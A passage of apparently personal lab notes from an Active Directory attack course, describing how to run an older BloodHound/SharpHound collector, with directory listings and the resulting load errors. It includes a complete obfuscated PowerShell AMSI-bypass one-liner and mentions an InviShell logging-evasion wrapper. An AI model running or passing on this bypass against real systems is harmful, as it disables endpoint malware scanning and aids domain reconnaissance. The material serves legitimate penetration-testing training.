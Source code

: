 **Issue with Local Admin and BloodHound Legacy**

BloodHound legacy does not show Local Admin edge in GUI. The last version where it worked was 4.0.3. It is present in the `Tools` directory as `BloodHound-4.0.3_old`. You can use it the same way as BloodHound legacy above.

Make sure to use the collector from `BloodHound-4.0.3_old` with UI in `BloodHound-4.0.3_old`. These are not compatible with BloodHound 4.2.0.

Run the below command **in a new PowerShell session after bypassing .NET AMSI**.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`dir C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors`:
```
    Directory: C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          1/7/2025   2:43 AM                DebugBuilds
-a----         5/22/2024   1:37 AM          59563 AzureHound.ps1
-a----         5/22/2024   1:37 AM         833024 SharpHound.exe
-a----         5/22/2024   1:37 AM         974235 SharpHound.ps1
```

`cd C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors`

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

`Import-Module .\SharpHound.ps1`

`Invoke-BloodHound -CollectionMethod All`:
```
Exception calling "Load" with "1" argument(s): "Could not load file or assembly '833024 bytes loaded from Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral,
PublicKeyToken=null' or one of its dependencies. An attempt was made to load a program with an incorrect format."
At C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors\SharpHound.ps1:549 char:2
+     $Assembly = [Reflection.Assembly]::Load($UncompressedFileBytes)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : BadImageFormatException

You cannot call a method on a null-valued expression.
At C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors\SharpHound.ps1:552 char:2
+     $Assembly.GetType("Costura.AssemblyLoader", $false).GetMethod("At ...
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull

You cannot call a method on a null-valued expression.
At C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors\SharpHound.ps1:553 char:2
+     $Assembly.GetType("SharpHound3.SharpHound").GetMethod("InvokeShar ...
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull
```
